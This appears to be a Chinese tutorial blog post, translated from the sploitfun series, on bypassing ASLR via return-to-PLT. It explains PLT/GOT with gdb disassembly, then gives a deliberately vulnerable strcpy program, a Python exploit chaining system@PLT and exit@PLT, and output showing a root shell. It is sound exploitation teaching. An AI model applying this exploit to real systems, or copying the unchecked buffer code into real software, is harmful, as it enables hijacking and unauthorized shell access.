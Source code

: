 ```yaml
---
layout: post
title: 通过return to plt绕过ASLR
excerpt: "sploitfun系列教程之2.3.1 return_to_plt"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是ASLR
Address space layout randomization (ASLR)是一种地址随机化的技术，随机化的空间包括
- 栈地址
- 堆地址
- 共享库地址

在以前的文章中，libc中函数地址计算方法如下
```
libc function address = libc base address + function offset
```
其中
- 当地址随机化关闭，libc的基地址通常是`0xb7e22000`
- offset通过`readelf -s libc.so.6 | grep`来查看

现在我们把地址随机化开启
```
echo 2 > /proc/sys/kernel/randomize_va_space
```
现在libc基地址将会被随机化

#### 什么是return to plt
相比与return to libc ，这种技术是将function@PLT的地址覆盖到return address中(这个地址不是随机的，是程序运行前就知道的)

为了更好的了解Procedural Linkage Table (PLT)，首先让我介绍一下共享库

与静态库不同，共享库代码段在多个进程之间共享，而其数据段对于每个进程是唯一的。这有助于减少内存和磁盘空间。由于代码段在多个进程之间共享，所以应该只有read和execute权限，因此动态链接器不能重新定位代码段中存在的数据符号或函数地址（因为它没有写权限）。那么动态链接如何在运行时重新定位共享库符号而不修改其代码段?它使用PIC完成！

#### 什么是plc
Position Independent Code (PIC) 是为了解决这个问题而开发的 - 它确保共享库代码段在多个进程之间共享，尽管在加载时执行重定位。PIC通过一级间接寻址实现这一点-共享库代码段不包含绝对虚拟地址来代替全局符号和函数引用，而是指向数据段中的特定表。该表是全局符号和函数绝对虚拟地址的占位符。动态链接器作为重定位的一部分来填充此表。因此，只有重定位数据段被修改，代码段保持不变！

一个例子
```c
//eg.c
//$gcc -g -o eg eg.c
#include <stdio.h>

int main(int argc, char* argv[]) {
 printf("Hello %s\n", argv[1]);
 return 0;
}
```
编译
```shell
gcc -g -o eg eg.c -m32
```
下面的反汇编显示，我们不会直接调用'printf'，而是调用相应的PLT代码'printf@PLT'。
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x0804840d <+0>:	push   ebp
   0x0804840e <+1>:	mov    ebp,esp
   0x08048410 <+3>:	and    esp,0xfffffff0
   0x08048413 <+6>:	sub    esp,0x10
   0x08048416 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048419 <+12>:	add    eax,0x4
   0x0804841c <+15>:	mov    eax,DWORD PTR [eax]
   0x0804841e <+17>:	mov    DWORD PTR [esp+0x4],eax
   0x08048422 <+21>:	mov    DWORD PTR [esp],0x80484d4
   0x08048429 <+28>:	call   0x80482e0 <printf@plt>
   0x0804842e <+33>:	mov    eax,0x0
   0x08048433 <+38>:	leave  
   0x08048434 <+39>:	ret    
End of assembler dump.
```
```bash
gdb-peda$ disassemble 0x80482e0
Dump of assembler code for function printf@plt:
   0x080482e0 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x080482e6 <+6>:	push   0x0
   0x080482eb <+11>:	jmp    0x80482d0
End of assembler dump.
```shell
在第一次调用printf之前，GOT entry (0x804a00c)指向了第二行，最终在dynamic linker帮助下完成链接
```
gdb-peda$ x/wx 0x804a00c
0x804a00c:	0x080482e6
```
在printf方法调用之后，其相应的GOT条目包含printf函数地址(如下所示)
```shell
gdb-peda$ x/wx 0x804a00c
0x804a00c:	0xf7e505d0
gdb-peda$ disassemble 0xf7e505d0
Dump of assembler code for function printf:
   0xf7e505d0 <+0>:	push   ebx
   0xf7e505d1 <+1>:	sub    esp,0x18
   0xf7e505d4 <+4>:	call   0xf7f436c5 <__x86.get_pc_thunk.bx>
   0xf7e505d9 <+9>:	add    ebx,0x178a27
   0xf7e505df <+15>:	lea    eax,[esp+0x24]
   0xf7e505e3 <+19>:	mov    DWORD PTR [esp+0x8],eax
   0xf7e505e7 <+23>:	mov    eax,DWORD PTR [esp+0x20]
   0xf7e505eb <+27>:	mov    DWORD PTR [esp+0x4],eax
   0xf7e505ef <+31>:	mov    eax,DWORD PTR [ebx-0x74]
   0xf7e505f5 <+37>:	mov    eax,DWORD PTR [eax]
   0xf7e505f7 <+39>:	mov    DWORD PTR [esp],eax
   0xf7e505fa <+42>:	call   0xf7e46520 <vfprintf>
   0xf7e505ff <+47>:	add    esp,0x18
   0xf7e50602 <+50>:	pop    ebx
   0xf7e50603 <+51>:	ret    
End of assembler dump.
```
了解了这些之后，我们使用return to plt来绕过aslr

漏洞代码
```c
#include <stdio.h>
#include <string.h>

/* Eventhough shell() function isnt invoked directly, its needed here since 'system@PLT' and 'exit@PLT' stub code should be present in executable to successfully exploit it. */
void shell() {
 system("/bin/sh");
 exit(0);
}

int main(int argc, char* argv[]) {
 int i=0;
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 return 0;
}
```
编译
```c
echo 2 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -o vuln vuln.c -m32
chmod 777 vuln
```
使用`objdump -d vuln | less`查找`system@PLT`和`exit@PLT`，或者使用如下方法
```shell
gdb-peda$ disassemble shell
Dump of assembler code for function shell:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    DWORD PTR [esp],0x8048594
   0x080484aa <+13>:	call   0x8048360 <system@plt>
   0x080484af <+18>:	mov    DWORD PTR [esp],0x0
   0x080484b6 <+25>:	call   0x8048370 <exit@plt>
End of assembler dump.
```
通过这些plt的值，我们来绕过aslr
```python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0x8048360
exit = 0x8048370
system_arg = 0x8048599     #Obtained from  ```objdump -s vuln|less```

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# Junk + system + exit + system_arg
buf = "A" * 272
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```
最后的结果
```shell
python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA檯 
sh-4.2# id
uid=0(root) gid=0(root) 组=0(root)
```



